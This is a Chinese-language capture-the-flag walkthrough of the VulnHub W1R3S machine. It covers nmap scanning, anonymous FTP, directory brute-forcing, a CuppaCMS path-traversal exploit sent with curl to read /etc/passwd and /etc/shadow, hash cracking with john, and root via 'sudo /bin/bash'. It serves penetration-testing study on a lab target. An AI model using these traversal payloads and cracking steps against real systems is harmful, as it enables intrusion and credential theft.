# 环境

来自[W1R3S](https://www.vulnhub.com/entry/w1r3s-101,220/)

# 信息收集

## 主机发现

```bash
sudo nmap -sn 192.168.88.0/24
```

确定主机`192.168.88.29`



## 端口扫描

```bash
sudo nmap -sT -r -p- 192.168.88.29
```

开放端口`21,22,80,3306`



## 服务探测

```bash
sudo nmap -sV -O -p21,22,80,3306 192.168.88.29
#想要信息更多可以尝试脚本扫描
sudo nmap -sV -sC -O -p21,22,80,3306 192.168.88.29
sudo nmap --script=vuln -p21,22,80,3306 192.168.88.29
```



## ftp渗透

```bash
#根据上面nmap脚本扫描结果，ftp可以使用匿名登录
ftp 192.168.88.29
用户名：anonymous
密码为空
#养成一个ftp切换二进制模式的好习惯(防止下载的二进制文件损坏)
ftp>binary  #或者bin
ftp>prompt  #切换多文件下载交互模式
ftp>mget *.txt#下载所有文件到本地
```



01.txt，03.txt都没啥用

02.txt里面的hash解密是`This is not a password`base64解密是`It is easy, but not that easy..`

employee-names.txt里面是员工名单

worktodo.txt是反转字符，` ı qouˋt thıuk thıƨ ıƨ the way to root!,we have a ןot of work to do‘ stop pןayıng around˙˙˙˙`

没啥利用信息

## 目录爆破

```bash
dirsearch -u http://192.168.88.29
#得到有效目录，继续二级目录爆破
dirsearch -u http://192.168.88.29/administrator
dirsearch -u http://192.168.88.29/wordpress
```

发现信息

```bash
http://192.168.88.29/wordpress/wp-login.php #这个登录不行，会到http://localhost
http://192.168.88.29/administrator/installation/
```





## 指纹识别

```
whatweb http://192.168.88.29/administrator
```

发现是cuppaCMS



# web渗透

## 已知cms漏洞getshell

```
searchsploit cuppa
searchsploit -m 25971
```

发现是远程文件包含漏洞



查看利用文件，存在一个`alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd`

我们尝试访问



有没有可能是post请求，可以百度cuppaCMS的源码进行验证，[相关源码](https://github.com/CuppaCMS/CuppaCMS/blob/master/alerts/alertConfigField.php)



的确是post请求，可以用burpsite也可以使用curl

```bash
curl --data-urlencode 'urlConfig=../../../../../../../../etc/passwd' http://192.168.88.29/administrator/alerts/alertConfigField.php
curl --data-urlencode 'urlConfig=../../../../../../../../etc/shadow' http://192.168.88.29/administrator/alerts/alertConfigField.php
curl -X POST -d 'urlConfig=../../../../../../../../etc/passwd' http://192.168.88.29/administrator/alerts/alertConfigField.php
curl -X POST -d 'urlConfig=../../../../../../../../etc/shadow' http://192.168.88.29/administrator/alerts/alertConfigField.php
```

得到用户的密码哈希值，进行john破解



重要信息

```bash
用户：w1r3s
密码：computer
ssh w1r3s@192.168.88.29

用户：www-data
密码：www-data
```

## 提权

```
sudo -l
sudo /bin/bash
```

发现这个用户有很大权限


